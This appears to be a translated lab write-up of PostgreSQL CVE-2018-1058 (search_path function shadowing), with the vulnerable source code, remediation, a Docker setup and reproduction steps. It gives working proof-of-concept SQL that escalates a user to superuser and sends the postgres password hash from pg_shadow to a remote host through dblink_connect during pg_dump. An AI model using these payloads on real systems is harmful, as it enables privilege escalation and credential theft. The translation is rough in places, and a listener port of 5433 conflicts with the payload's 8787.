








# CVE-2018-1058 PostgreSQL RCE

## Vulnerability Background
- **PostgreSQL**:P ostgreSQL is an open-source, powerful object-relational database management system widely used in web development, data analysis, and enterprise-level applications. It supports ACID transactions, complex queries, full-text searches, and Multi-Version Concurrency Control (MVCC), ensuring high concurrency and data consistency. PostgreSQL offers scalability, allowing users to <u> customize </u> data types, <u> function </u>, and indexes, and also supports JSON and geospatial data

- **schema** :P an important concept in the osstgreSQL database, used to organize and manage objects in the database. Each database can contain multiple `schema`, and each `schema` can contain multiple tables, views, indexes, functions, stored procedures, and other objects. When users create databases, the default operation settings are all performed under a `schema` named `public`. For example, `SELECT * FROM a;` is actually equal to `SELECT * FROM public.a；`. By default, any user can create objects (such as creating new tables, creating new functions, etc.) under `public`.
- **search_path Search Order**: A list composed of schema names. `search_path` determines how PostgreSQL finds and parses the names of database objects such as tables, views, and functions during queries. If no `schema` is explicitly specified, PostgreSQL will search for objects in the order of `search_path`. The default value is `"$user", public` ($user for the current session user).
- **pg_catalog:P A system schema in the ostgreSQL database system, which includes tables, views, functions, and other objects inside the database for storing metadata. Metadata refers to information about database objects, such as table structure, column information, indexes in the database, user permissions, and so on. It usually appears by default in `search_path`. Since `pg_catalog` stores the database metadata, any SQL query without a clearly specified object pattern will first look for that object in the `pg_catalog`.
- **pg_dump**: A command-line tool in PostgreSQL database systems used to export database content. Its main function is to create a backup of the database (also known as dump files), allowing the structure and data in the database to be exported into a single file. `pg_dump` When exporting database content, it's not just about retrieving data; it also executes triggers, functions, and other functions in the database. Especially when exporting data containing array type fields, `pg_dump` calls the `array_to_string` function to convert the array into a string without specifying `schema`.

- **dblink_connect** :P an extension of ostgreSQL that supports interaction with another PostgreSQL database via SQL statements within a PostgreSQL database session. It allows a database to perform cross-database queries, enabling connections and data exchange between different databases. This extension relies on external database connections and usually requires providing connection strings for the remote database (such as username, password, database name, host address, etc.).
- **pg_shadow Table**: This table stores the authentication information of database users, including usernames and encrypted passwords (usually encrypted using MD5 or SHA256). Attackers can use `dblink` to query this table, thereby stealing the encrypted passwords of superusers or other high-privilege users.

## Vulnerability Mechanism
Because it uses independent namespaces, when users query objects with the same name but in different `schema`, they inevitably need to consider a certain order:

1. First, the adaptation principle: the first `object` found is used;
2. The `schema` named `$user` is determined by `SESSION_USER`;
3. If `pg_catalog` is not in the path, it will be searched first; if in the path, it will be searched in the specified order.

The third point causes code execution vulnerabilities.

### For Method One

**Create an existing function with the same name with different parameters. **

In the `pg_catalog` of the system schema, a large number of functions are defined. For example, the ABS function series accepts a type of bigint \smallint \intger \real \double precision \numeric parameter, returns its absolute value. If we pass a non-numeric parameter, such as text type:

```sql
select abs('testdata');
```

Since there is no abs function with text as the parameter, an error will be sent directly:



But Postgres provides custom functions. We create the following function:

```sql
CREATE FUNCTION public.abs(TEXT) RETURNS TEXT AS $$
     SELECT 'you are hacked by ' || $1;
$$ LANGUAGE SQL IMMUTABLE;
```

When we execute the same query again, according to Postgres's design process, it first looks for the system schema `pg_catalog`, but since the parameter types differ, it doesn't find it. Then it searches in the order in the `search_path`, and the `abs(text)` we define exists in the `public` `schema`, the parameters are met, so pg naturally executes the function we defined:



Note that this function is defined in the `schema` of `public`, meaning that any user accessing this database who calls abs and has text as a parameter may trigger malicious code execution.

### For use method two

**Create a array_to_string function with a public schema and use pg_dump tools**.

Based on Method 1, on top of creating malicious functions, tools like `pg_dump` and `pg_dumpall` can be used to execute malicious functions. These tools dynamically set `search_path` during execution, causing `public` to have higher priority than `pg_catalog`, meaning that even when the same type, parameters, and function name are used, functions in `public` are prioritized. Compared to the first, it is more concealed and offers higher triggerability.

  During execution, the `pg_dump` tool triggers the `array_to_string` function in the database without specifying `schema`. Since `search_path` is already set, to enable direct adaptation, the number of parameters and types of the malicious function created here must be `pg_catalog` If the definition is the same, if they differ, it will be matched in order to the correct function.

 `pg_dump` During runtime, `read only transaction` (read-only transactions) is enabled, ensuring consistent database backups. However, the `select` statement is not disabled. If `dblink` is enabled, queries can be used to retrieve data, for example using `dblink_connect`.

### Summary

- **Default configuration of object namespaces**:
  - By default, any user who can connect to the database can create objects in `public` mode. This allows malicious users to create objects with the same name as built-in system objects (such as functions, operators, etc.), thereby altering other users' query behavior.
- **Overloading Mechanism for Functions and Operators**:
  - PostgreSQL allows the creation of functions and operators with the same name in different patterns. If a malicious user creates a function with the same name in `public` mode as in `pg_catalog`, PostgreSQL may prioritize using the function in `public` mode when other users perform queries, leading to unexpected or malicious behavior.
- **Dynamic Modification `search_path` **:
  - When exporting database objects, pg_dump tools dynamically modify `search_path` settings to correctly reference objects. For example, when exporting an object in a certain mode, the `search_path` will be set to that mode with `pg_catalog`.
  - This dynamic modification of `search_path` may result in referencing the wrong object upon recovery, especially when the target database has different `search_path` settings.

## Vulnerability Location
1. In the **src \bin \initdb \initdb .c** file, at line **2053**, two SQL statements are defined. The first allows all users to use `pg_catalog`'s schema. The latter allows all users (`PUBLIC` roles) to create objects in `public`'s schema and use that schema. This means any user who can connect to the database can create objects in `public` mode. This allows malicious users to create objects with the same name as the system's built-in object, thereby altering the query behavior of other users. Next, trace how to call the schema.

```c
"GRANT USAGE ON SCHEMA pg_catalog TO PUBLIC;\n\n",
"GRANT CREATE, USAGE ON SCHEMA public TO PUBLIC;\n\n",
```

2. In the **src \backend \utils \misc \guc .c** file, line **3189**, this code defines the default behavior and properties of the `search_path` configuration item in PostgreSQL. Here, `"\"$user\", public"` is the default value for `search_path`, meaning that when PostgreSQL searches for unrestricted pattern names, it first searches for the current user's pattern (`$user`), then `public` pattern. If the function is not found in user mode, it will be searched in `public` mode. `pg_catalog` schema is by default in the search path `search_path`, and its priority is above all schemas. If the user calls a function and the function is not present in both the `pg_catalog` and the user's schema, it will find and use the function in the `public` schema. If the function is malicious, it will be executed by the user. However, pg_dump tools can set the `public` schema priority to the highest when processing database objects.

```c
	{
		{"search_path", PGC_USERSET, CLIENT_CONN_STATEMENT,
			gettext_noop("Sets the schema search order for names that are not schema-qualified."),
			NULL,
			GUC_LIST_INPUT | GUC_LIST_QUOTE
		},
		&namespace_search_path,
		"\"$user\", public",
		check_search_path, assign_search_path, NULL
	},
```

3. In the **src \bin \pg _dump \pg _dump.c** file, line **17864**, the `selectSourceSchema` function dynamically adjusts the `search_path` based on the input input `schemaName` parameter to set the `search_path` of the current session. When this function executes, it first inserts the incoming `schemaName` into `search_path`, and if `schemaName` is not `pg_catalog`, it inserts `pg_catalog`.

```c
/*
 * selectSourceSchema - make the specified schema the active search path
 * in the source database.
 *
 * NB: pg_catalog is explicitly searched after the specified schema;
 * so user names are only qualified if they are cross-schema references,
 * and system names are only qualified if they conflict with a user name
 * in the current schema.
 *
 * Whenever the selected schema is not pg_catalog, be careful to qualify
 * references to system catalogs and types in our emitted commands!
 *
 * This function is called only from selectSourceSchemaOnAH and
 * selectSourceSchema.
 */
static void
selectSourceSchema(Archive *fout, const char *schemaName)
{
	PQExpBuffer query;

	/* This is checked by the callers already */
	Assert(schemaName != NULL && *schemaName != '\0');

	/* Not relevant if fetching from pre-7.3 DB */
	if (fout->remoteVersion < 70300)
		return;

	query = createPQExpBuffer();
	appendPQExpBuffer(query, "SET search_path = %s",
					  fmtId(schemaName));
	if (strcmp(schemaName, "pg_catalog") != 0)
		appendPQExpBufferStr(query, ", pg_catalog");

	ExecuteSqlStatement(fout, query->data);

	destroyPQExpBuffer(query);
}
```

4. Each functional module calls `selectSourceSchema` functions, such as the 1680 line `dumpTableData_copy` method, `tbinfo->dobj.namespace->dobj.name` used to obtain the namespace (schema) to which the table belongs. This code sets `search_path` as the name string of the schema to which the table `tbinfo` belongs to. If the table belongs to `public`, the final SQL statement will be `SET search_path = public, pg_catalog`, resulting in a `public` priority ratio `pg_catalog` high, meaning that even when the same type, parameters, and function name are the same, functions in `public` will be prioritized. Malicious functions are executed in queries sent by `pg_dump` and in subsequent recovery runs.

```c
	/*
	 * Make sure we are in proper schema.  We will qualify the table name
	 * below anyway (in case its name conflicts with a pg_catalog table); but
	 * this ensures reproducible results in case the table contains regproc,
	 * regclass, etc columns.
	 */
	selectSourceSchema(fout, tbinfo->dobj.namespace->dobj.name);
```

## Remediation

Upgrade to PostgreSQL 10.3, 9.6.8, 9.5.12, 9.4.17, 9.3.22, or a later release on the corresponding branch.
In the init.c file, change the two lines of SQL code to:

```c
"GRANT USAGE ON SCHEMA pg_catalog, public TO PUBLIC;\n\n",
```

Revoking `CREATE` permissions for `PUBLIC` roles on `public` schemas means that regular users can no longer create objects in `public`'s schema.

## Affected Versions
9.3 < postgres <10

## Environment Setup
1. In the docker-compose.yml file, use the official image of Postgres v9.6.7, set the administrator username to postgre, and the password to passwd.

```yaml
services:
 postgres:
   image: postgres:9.6.7
   ports:
    - "5432:5432"
   environment:
    # The default administrator username is postgres
    POSTGRES_USER: postgres
   volumes:
    - ./init.sh:/docker-entrypoint-initdb.d/init.sh
```

2. int.sh In the script file, create a new set for regular user test, password test, database as test, and enable dblink.

```sh
#!/bin/bash
set -ex 

# Change the PostgreSQL administrator password
psql -v ON_ERROR_STOP=1 --username "$POSTGRES_USER" <<-EOSQL
    ALTER USER postgres WITH PASSWORD 'password';
EOSQL

# Create a user named test, with the password being test; Create a database named 'test', with all permissions granted to the test user; grants the test user all permissions over the test database
psql -v ON_ERROR_STOP=1 --username "$POSTGRES_USER" <<-EOSQL
    CREATE USER "test" WITH PASSWORD 'test';
    CREATE DATABASE "test" OWNER "test";
    GRANT ALL PRIVILEGES ON DATABASE "test" to "test";
EOSQL

# Create PostgreSQL extension dblink to allow remote connections within the database
psql -v ON_ERROR_STOP=1  --username "$POSTGRES_USER" test <<-EOSQL
    CREATE EXTENSION IF NOT EXISTS dblink;
EOSQL
```

3. Startup environment



## Vulnerability Reproduction
### Use method one

**Remote Execution Privilege Enhancement Code**

1. Log in to the test user's test database. Since the system does not provide `lower` or `upper` functions that accept `varchar` parameters, we create a `upper` function with parameter type `varchar`:

```sql
psql -h 127.0.0.1 -U test -p 5432 -d test

CREATE FUNCTION public.upper(varchar) RETURNS TEXT AS $$
    ALTER ROLE test SUPERUSER;
    SELECT pg_catalog.upper($1);
$$ LANGUAGE SQL VOLATILE;
```

`ALTER ROLE test SUPERUSER`: Upgrade the database role named `test` to superuser.

 `SELECT pg_catalog.upper($1)`: Use PostgreSQL's built-in `upper` function to convert the input string to uppercase. `$1` represents the first input parameter of the function (i.e., the value of type `varchar` passed to the function). This serves as a cover.

2. Create a new table `evil` in the test user's test database, create a new column `contents`, and insert a data `varchar` type `txt`:

```sql
CREATE TABLE public.evil AS SELECT 'txt'::varchar AS contents;
```



3. Connect to database test as administrator, view the current user and all user permissions. `t` indicates superuser, `f` indicates not superuser:

```sql
psql -h 127.0.0.1 -U postgres -p 5432 -d test
select current_user;
select rolname,rolsuper from pg_roles;
```

4. View the `contents` field in the `evil` table:

```sql
select contents from evil;
```

5. Call the `upper` function. Since `contents` is of type `varchar`, we call our custom database and capitalize `txt`:

```sql
select upper(contents) from evil;
```

6. Review all users' permissions again. You can see that the test user has become a superuser, the code has run successfully, and the privilege escalation has been successful.



### Use Method Two

**Obtain administrator password hash**

1. Attack `192.168.233.133` First log in to the `postgres` via regular user `test`:

```cmd
psql --host <target-ip> --username test
```

2. After logging in, execute the following statement:

```sql
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=192.168.233.133 port=8787 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

This code creates a function with `array_to_string` `schema` of `public`, and its function is:

- Through `dblink_connect`, malicious code extracts the superuser's password from the current database's `pg_shadow` table and sends it to a specified remote server (`192.168.233.133：8787`).
- Call PostgreSQL's built-in `array_to_string` function to convert the incoming array parameters into a string connected by the second parameter (separator).

Thus, when administrators use the `pg_dump` tool to create a database backup, the tool dynamically sets the `search_path` during execution, causing the `public` to have a higher priority than `pg_catalog`. In other words, even when the same type, parameters, and function name are used, it will be selected `public` function. This causes our custom `array_to_string` function to run during backups, allowing attackers to use `dblink_connect` to send the password of the obtained administrator user to a designated remote server.



3. Monitor port 5433 on the `192.168.233.133` and wait for the superuser to trigger the "backdoor" we left behind.

4. Run the `pg_dump` command on the container command line to back up the test database data to the evil.bak file.

```cmd
docker-compose exec postgres pg_dump -U postgres -f evil.bak test
```

5. When executing the 4th command, the "backdoor" has been triggered. `192.168.233.133` The machine has received the password encrypted by md5 for the administrator user postgre: md532e12f215ba27cb750c9e093ce4b5127.



6. Enter the container, log in as an administrator, and check the postgres user's password hash. The result matches the result:

```
SELECT usename, passwd FROM pg_shadow WHERE usename = 'postgres';
```



## PoC Analysis
### poc1

Create a `upper` function with parameter type `varchar`.

```sql
CREATE FUNCTION public.upper(varchar) RETURNS TEXT AS $$
    ALTER ROLE test SUPERUSER;
    SELECT pg_catalog.upper($1);
$$ LANGUAGE SQL VOLATILE;
```

- `ALTER ROLE test SUPERUSER`: Upgrade the database role named `test` to superuser.
- `SELECT pg_catalog.upper($1)`: Use PostgreSQL's built-in `upper` function to convert the input string to uppercase form. `$1` represents the first input parameter of the function (i.e., the value of type `varchar` passed to the function). This serves as a cover.

### poc2

```sql
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=192.168.233.133 port=8787 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

This code creates a function named `array_to_string`, which functions:

- Through `dblink_connect`, malicious code extracts the superuser's password from the current database's `pg_shadow` table and sends it to a specified remote server (`192.168.233.133：8787`).
- Call PostgreSQL's built-in `array_to_string` function to convert the incoming array parameters into a string connected by the second parameter (separator).

Thus, when administrators use the `pg_dump` tool to create a database backup, the tool dynamically sets the `search_path` during execution, causing the `public` to have a higher priority than `pg_catalog`. In other words, even when the same type, parameters, and function name are used, it will be selected `public` function. This causes our custom `array_to_string` function to run during backups, allowing attackers to use `dblink_connect` to send the password of the obtained administrator user to a designated remote server.

## References
[ PostgreSQL Remote Code Execution Vulnerability Analysis and Exploitation — [CVE-2018-1058] - Prophet Community ](https://xz.aliyun.com/t/2109?time__1311=n4%2Bxni0%3DoxBDg7zD%2FD0QaGOD9DmoTncOmOnGoD#toc-0 )

[PostgreSQL CVE-2018-1058(search_path) and Database Traps and Offensive Defense Guide - Motianlun](https://www.modb.pro/db/93294)

[CVE-2018-1058 Guide: Protect Your Search Path - PostgreSQL Wiki --- A Guide to CVE-2018-1058: Protect Your Search Path - PostgreSQL wiki](https://wiki.postgresql.org/wiki/A_Guide_to_CVE-2018-1058%3A_Protect_Your_Search_Path)

[PostgreSQL documentation: search_path Parameters](https://postgresqlco.nf/doc/zh/param/search_path/)

[git.postgresql.org Git - postgresql.git/search](https://git.postgresql.org/gitweb/?p=postgresql.git&a=search&h=HEAD&st=commit&s=CVE-2018-1058)

[A flaw was found in the way Postgresql allowed a user to... · CVE-2018-1058 · GitHub Advisory Database](https://github.com/advisories/GHSA-wj3f-f94q-2r98)

[Reference 1](https://xz.aliyun.com/t/2109?time__1311=n4%2Bxni0%3DoxBDg7zD%2FD0QaGOD9DmoTncOmOnGoD#toc-0)
